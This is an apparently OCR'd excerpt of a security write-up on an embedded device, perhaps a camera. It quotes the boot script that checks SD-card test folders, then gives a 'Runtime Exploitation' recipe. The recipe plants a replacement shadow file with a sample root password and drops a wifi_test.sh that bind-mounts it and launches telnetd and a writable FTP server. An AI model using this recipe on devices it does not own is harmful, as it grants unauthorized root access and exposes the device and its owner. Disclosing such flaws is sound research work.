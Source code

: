            if test -d /mnt/agingtest ;then
                AGING_TEST=1
                echo 0 > /sys/class/leds/red_led/brightness
                echo 1 > /sys/class/leds/blue_led/brightness
                cp /mnt/agingtest/aging_test /tmp/
            else
                AGING_TEST=0
            fi

            if test -d /mnt/wifitest ;then
                WIFI_TEST=1
                echo 0 > /sys/class/leds/red_led/brightness
                echo 1 > /sys/class/leds/blue_led/brightness
            else
                WIFI_TEST=0
            fi

            if test -d /mnt/update ;then
                UPDATE_MODE=1
            else
                UPDATE_MODE=0
            fi
            LOG_FILE="/mnt/debug/log.txt"
            if [ -f $LOG_FILE ];then
                # Close STDOUT file descriptor
                exec 1<&-
                # Close STDERR FD
                exec 2<&-

                # Open STDOUT as $LOG_FILE file for read and write.
                exec 1<>$LOG_FILE

                # Redirect STDERR to STDOUT
                exec 2>&1
                #
            else
                echo "NO DEBUG FILE"
            fi


Runtime Exploitation:
If the device has been configured before
Pick you Poison via FACTORY_TEST or WIFI_TEST or "encrypted" enable_telnetd.dat entrypoints on SDCard.

Example:
WIFI_TEST:
01. Format SD-CARD FAT32
02. create new shadowfile and save in sdcard root.
        Exammple shadow root password = tc100
02. Create "wifitest" folder in SDCard root
03. Create wifi_test.sh in wifitest folder.
04. Example wifi_test.sh: (only launches cmd_serverd, ftp and telned)
		#! /bin/sh
		mount --bind /mnt/tempshadow /etc/jffs2/shadow
		/bin/tcpsvd 0 21 ftpd -w / -t 600 &
		/sbin/telnetd &
		/usr/sbin/net_manage.sh &		#If the device has not been linked/configured before you have to also edit the wpa_supplicant config.
